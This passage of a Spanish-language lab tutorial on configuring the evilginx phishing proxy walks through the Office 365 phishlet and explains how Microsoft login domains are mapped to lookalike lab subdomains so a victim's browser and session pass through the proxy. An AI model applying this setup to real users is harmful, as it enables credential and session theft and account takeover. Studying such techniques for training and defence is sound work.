

Entramos en esa carpeta y listamos el contenido.

```
cd phishlets
ls -l
```

Los ***phishlets*** son archivos YAML que indican a ***evilginx*** como debe configurarse. Observa el de O365.



Edítalo con ***nano***.
```
nano o365.yaml
```

Por descontado que deberías leerte la documentación del proyecto ***evilginx*** relativa a los ***phishlets***, pero para entender esta demo solo necesitas localizar los nombres de los endpoints del servicio original.



Como puedes ver, hay tres.

1) login.microsoftonline.com
2) www.office.com
3) login.microsoftonline.com  (Que a diferencia del primero tiene el atributo ***session*** a ***true***)

En consecuencia son dos DNS, ***login.microsoftonline.com*** y ***www.office.com*** que es donde se conectaría el el navegador de la víctima. Esos dominios van a ser sustituidos respectivamente por ***login.evilginx.antsala.xyz*** y ***www.evilginx.antsala.xyz***. Por esa razón, se dieron de altas sendos registros de recursos de tipo A en la zona de DNS.


***FIN DEL LABORATORIO***